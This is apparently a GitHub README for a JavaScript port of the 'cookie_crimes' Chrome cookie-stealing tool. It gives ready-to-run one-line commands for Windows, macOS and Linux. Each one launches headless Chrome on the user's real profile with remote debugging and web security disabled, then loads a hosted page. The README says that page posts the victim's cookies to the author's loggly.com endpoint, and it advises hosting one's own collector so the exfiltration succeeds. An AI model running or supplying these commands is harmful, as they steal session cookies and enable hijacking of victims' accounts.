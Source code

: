 This is a javascript implementation of the [cookie_crimes tool](https://mango.pdf.zone/stealing-chrome-cookies-without-a-password) by @mangopdf

Running the command below will run the javascript found in the *index.html* file of this repo which has been setup using Github Pages. It is currently harcoded to post the script output (your sensitve cookies) to my own loggly.com URL. You should host it on your own server and modify the location where the cookies get sent.

Thank you to @shellsterdude as well for the hints and tips he gave me as well as help testing.

Note: Running this command leaves a headless browser behind, causing non-deterministic results if you run it again. You should kill the chrome processes associated with the headless browser or restart the OS before running this command a second time to guarantee your successfull exfil of cookies.

# Windows

## Windows 10

### 64 Bit

```"%PROGRAMFILES(X86)%\Google\Chrome\Application\chrome.exe" --headless --remote-debugging-port=9222 --disable-web-security --user-data-dir="%localAppData%/Google/Chrome/User Data" --disable-plugins https://clr2of8.github.io/TestCC/```

### 32 Bit

```"%PROGRAMFILES%\Google\Chrome\Application\chrome.exe" --headless --remote-debugging-port=9222 --disable-web-security --user-data-dir="%localAppData%/Google/Chrome/User Data" --disable-plugins https://clr2of8.github.io/TestCC/```

## Windows 7

```"%localAppData%\Google\Chrome\Application\chrome.exe" --headless --remote-debugging-port=9222 --disable-web-security --user-data-dir="%localAppData%/Google/Chrome/User Data" --disable-plugins https://clr2of8.github.io/TestCC/```

# OS X

```"/Applications/Google Chrome.app/Contents/MacOS/Google Chrome" --headless --remote-debugging-port=9222 --disable-web-security --user-data-dir="$HOME/Library/Application Support/Google/Chrome" --disable-plugins https://clr2of8.github.io/TestCC/```

# Linux

```google-chrome --headless --remote-debugging-port=9222 --disable-web-security --user-data-dir="~/.config/google-chrome/default" --disable-plugins https://clr2of8.github.io/TestCC/```
